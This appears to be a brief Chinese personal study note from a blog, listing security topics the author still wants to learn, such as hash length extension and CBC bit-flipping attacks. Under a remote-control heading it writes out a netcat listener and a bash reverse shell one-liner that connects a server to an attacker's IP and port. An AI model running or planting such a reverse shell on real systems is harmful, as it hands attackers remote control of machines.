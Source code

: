 ```yaml
---
title: 自己在知识上发现的盲点
date: 2018-05-22 19:32:46
tags:
categories: [未学]
thumbnail:
---
```


# 我待修补的盲点

- 哈希长度拓展攻击

- CBC反转攻击

- Content Security Policy 内容安全策略

- webpack debundle

- PHP实用函数

- 关于远控

  - 攻击机监听

    ```bash
    nc -ll -v -p 端口
    ```

  - 让服务器运行的shell

    ```bash
    bash -i >& /dev/tcp/[ip]/[port] 0>&1
    ```


